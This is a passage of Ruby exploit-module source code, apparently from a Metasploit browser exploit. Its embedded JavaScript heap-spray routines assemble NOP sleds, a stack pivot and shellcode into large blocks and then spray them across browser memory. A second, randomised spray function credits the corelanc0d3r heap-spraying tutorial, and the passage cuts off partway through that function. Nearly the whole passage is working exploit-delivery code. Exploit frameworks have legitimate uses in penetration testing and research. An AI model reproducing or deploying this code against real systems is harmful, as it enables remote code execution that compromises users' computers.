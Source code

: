       while (nops.length < 0x80000) nops += nops;

      var offset = nops.substring(0, #{t['SprayCounter']});
      var offset_2 = nops.substring(0, #{t['SprayStackPivot']} - offset.length - counter.length);
      var offset_3 = nops.substring(0, #{t['SprayOffset']} - offset.length - counter.length - offset_2.length - stack_pivot.length);
      var block_used = code.length + offset_3.length + stack_pivot.length + offset_2.length + counter.length + offset.length;
      var shellcode = offset + counter + offset_2  + stack_pivot + offset_3 + code + nops.substring(0, 0x800 - block_used);

      while (shellcode.length < 0x40000) shellcode += shellcode;
      var block = shellcode.substring(0, (0x80000-6)/2);

      heap_obj.gc();
      for (var z=1; z < #{t['SprayBlocks']}; z++) {
       heap_obj.alloc(block);
      }

      JS

      return spray

     end

     # Spray published by corelanc0d3r
     # Exploit writing tutorial part 11 : Heap Spraying Demystified
     # See https://www.corelan.be/index.php/2011/12/31/exploit-writing-tutorial-part-11-heap-spraying-demystified/
     def get_random_spray(t, js_code, js_nops, js_90_nops, js_counter, js_stack_pivot)

      spray = <<-JS

      function randomblock(blocksize)
      {
       var theblock = "";
       for (var i = 0; i < blocksize; i++)
       {
        theblock += Math.floor(Math.random()*90)+10;
       }
       return theblock;
      }

      function tounescape(block)
      {
       var blocklen = block.length;
       var unescapestr = "";
       for (var i = 0; i < blocklen-1; i=i+4)
       {
        unescapestr += "%u" + block.substring(i,i+4);
       }
       return unescapestr;
      }
